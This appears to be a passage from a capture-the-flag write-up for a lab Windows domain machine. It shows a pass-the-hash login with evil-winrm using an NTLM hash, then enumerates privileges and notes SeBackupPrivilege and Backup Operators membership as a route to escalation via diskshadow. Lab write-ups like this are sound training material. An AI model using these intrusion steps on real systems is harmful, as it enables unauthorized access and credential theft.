 ## Authenticating as svc_backup (finally can spawn an interactive shell!!) evil-winrm

`evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d`

## Privesc 

- My first thought is to try: `whoami /priv` to check user privileges. `SeBackupPrivilege` is enabled (Dangerous!)
- **SeBackupPrivilege**: This privilege causes the system to grant all read access control to any file, regardless of the access control list (ACL) specified for the file.
- **Members of “Backup Operators” group:** Backup Operators is a default Windows group that is designed to backup and restore files on the computer using certain methods to read and write all (or most) files on the system.  `"diskshadow"` (this is the one we will use)

````
*Evil-WinRM* PS C:\Users\svc_backup\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

````

````
*Evil-WinRM* PS C:\Users\svc_backup\desktop> whoami /all

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

````

